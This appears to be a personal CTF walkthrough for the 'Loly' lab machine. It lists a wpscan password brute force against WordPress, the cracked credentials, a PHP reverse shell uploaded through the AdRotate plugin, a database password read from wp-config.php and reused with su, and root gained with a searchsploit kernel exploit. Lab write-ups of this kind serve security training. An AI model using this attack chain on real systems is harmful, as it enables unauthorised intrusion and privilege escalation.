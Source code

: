 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Loly
# 21/2/2023

----------------------------------------------------
# wordpress
----------------------------------------------------
wpscan --url http://loly.lc/wordpress/  -U loly -P /usr/share/wordlists/rockyou.txt     
Username: loly, Password: fernando
AdRotate
>wp-admin>login>adrotae>managemedia>upload file>php rev shell>ip/wordpress/wp-content/banners.shell.php

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)


http://192.168.107.121/wordpress/

----------------------------------------------------
# priv esc
----------------------------------------------------
->www-data@ubuntu:~/html/wordpress$ cat wp-config.php
/** MySQL database username /
define( 'DB_USER', 'wordpress' );
/** MySQL database password /
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

su loly
lolyisabeautifulgirl

->cat /etc/passwd
seachsploit ubuntu 4.4.0
->uname -a
Linux ubuntu 4.4.0-31-generic 
->searchsploit -m 45010.c  
mv exploit to client run run got a root

